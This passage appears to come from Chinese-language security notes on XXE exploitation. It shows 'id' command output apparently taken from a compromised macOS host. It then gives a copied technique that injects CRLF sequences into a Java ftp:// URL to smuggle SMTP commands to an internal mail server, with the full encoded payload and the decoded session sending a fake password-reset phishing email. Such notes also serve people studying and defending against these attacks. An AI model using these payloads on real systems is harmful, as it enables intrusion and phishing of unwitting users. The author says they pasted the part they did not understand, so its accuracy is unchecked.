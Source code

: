 ```xml
<file>uid=501(Apple) gid=20(staff) 
groups=20(staff),501(access_bpf),12(everyone),61(localaccounts),79(_appserverusr),
80(admin),81(_appserveradm),98(_lpadmin),401(com.apple.sharepoint.group.1),
33(_appstore),100(_lpoperator),204(_developer),398(com.apple.access_screensharing),
399(com.apple.access_ssh)<file>
```

因为装这个插件的少，不指望

#### 钓鱼

> 源自 [XXE漏洞利用技巧：从XML到远程代码执行](https://www.secflag.com/archives/439.html)，因为我没看懂所以直接粘了

我们使用Java的XML解析器找到了一个易受攻击的端点。扫描内部端口后，我们发现了一个侦听在 25 端口的 SMTP 服务，Java 支持在 [sun.net.ftp.impl.FtpClient](http://grepcode.com/file/repository.grepcode.com/java/root/jdk/openjdk/7-b147/sun/net/ftp/impl/FtpClient.java) 中的 ftp URI。因此，我们可以指定用户名和密码，例如 ftp://user:password@host:port/test.txt ，FTP客户端将在连接中发送相应的 USER 命令。

但是如果我们将 %0D%0A ([CRLF](https://www.owasp.org/index.php/CRLF_Injection)) 添加到 URL 的 user 部分的任意位置，我们就可以终止 USER 命令并向 FTP 会话中注入一个新的命令，即允许我们向25端口发送任意的 SMTP 命令：

```
ftp://a%0D%0A
EHLO%20a%0D%0A
MAIL%20FROM%3A%3Csupport%40VULNERABLESYSTEM.com%3E%0D%0A
RCPT%20TO%3A%3Cvictim%40gmail.com%3E%0D%0A
DATA%0D%0A
From%3A%20support%40VULNERABLESYSTEM.com%0A
To%3A%20victim%40gmail.com%0A
Subject%3A%20test%0A
%0A
test!%0A
%0D%0A
.%0D%0A
QUIT%0D%0A
:a@VULNERABLESYSTEM.com:25
```

当FTP客户端使用此 URL 连接时，以下命令将会被发送给 VULNERABLESYSTEM.com 上的邮件服务器：

```
ftp://a
EHLO a
MAIL FROM: <support@VULNERABLESYSTEM.com>
RCPT TO: <victim@gmail.com>
DATA
From: support@VULNERABLESYSTEM.com
To: victim@gmail.com
Subject: Reset your password
We need to confirm your identity. Confirm your password here: http://PHISHING_URL.com
.
QUIT
:support@VULNERABLESYSTEM.com:25
```
